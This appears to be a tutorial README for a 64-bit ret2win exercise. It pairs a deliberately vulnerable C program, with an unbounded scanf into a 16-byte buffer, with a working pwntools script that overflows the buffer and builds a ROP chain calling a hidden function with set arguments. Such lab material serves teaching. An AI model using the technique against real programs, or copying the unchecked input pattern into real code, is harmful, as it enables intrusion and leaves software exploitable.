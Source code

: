# Ret2Win with 64-bit Parameters Exploit

This is an advanced ret2win exploit with 64-bit parameters, where the buffer overflow is exploited to pass two specific 64-bit arguments to the hidden function `hacked()`.

## C Code (vulnerable_with_64_params.c)

```c
#include <stdio.h>

void hacked(long first, long second)
{
    if (first == 0xdeadbeefdeadbeef && second == 0xc0debabec0debabe){
        printf("This function is TOP SECRET! How did you get in here?! :O\n");
    }else{
        printf("Unauthorised access to secret function detected, authorities have been alerted!!\n");
    }
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);
}

int main()
{
    register_name();

    return 0;
}
```

## Python Exploit Code (exploit_with_64_params.py)

```python
from pwn import *

# Allows easy swapping between local/remote/debug modes
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './ret2win_params'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(200))

# Start program
io = start()

# ROP object
rop = ROP(elf)
rop.hacked(0xdeadbeefdeadbeef, 0xc0debabec0debabe)

# Build the payload
payload = flat({
    offset: rop.chain()
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Get flag
io.interactive()
```

## Explanation of the Code

### Vulnerable C Code with 64-bit Parameters

- This version of the `hacked()` function now takes two 64-bit parameters. The function checks if these values match `0xdeadbeefdeadbeef` and `0xc0debabec0debabe`.
- The `register_name()` function still contains the buffer overflow vulnerability, which allows us to overwrite the return address of the function.
- To successfully exploit this, we need to send two specific 64-bit values as parameters to the `hacked()` function during the exploit.

### Exploit Code with 64-bit Parameters

- **`find_ip()`**: This function sends a cyclic pattern to the program and finds the offset to the return address (RIP in x64). It helps identify how many bytes of input are required to overwrite the return address.
- **ROP Chain**: A Return-Oriented Programming (ROP) chain is created using Pwntools. We use `rop.hacked()` to directly call the `hacked()` function with the correct parameters `0xdeadbeefdeadbeef` and `0xc0debabec0debabe`.
- **Payload**: The payload is constructed by combining the offset and the ROP chain, which includes the return address and the parameters for the `hacked()` function.
- **`write('payload', payload)`**: This writes the payload to a file called `payload`, which can be saved for later reference.

### Running the Exploit

1. **Run the exploit**:

```bash
   python3 exploit_with_64_params.py
```

### Output

When the exploit is successful, the `hacked()` function will be triggered with the correct 64-bit parameters, and the following message will be printed:

```
This function is TOP SECRET! How did you get in here?! :O
```

The exploit also saves the payload to a file named `payload` for reference.
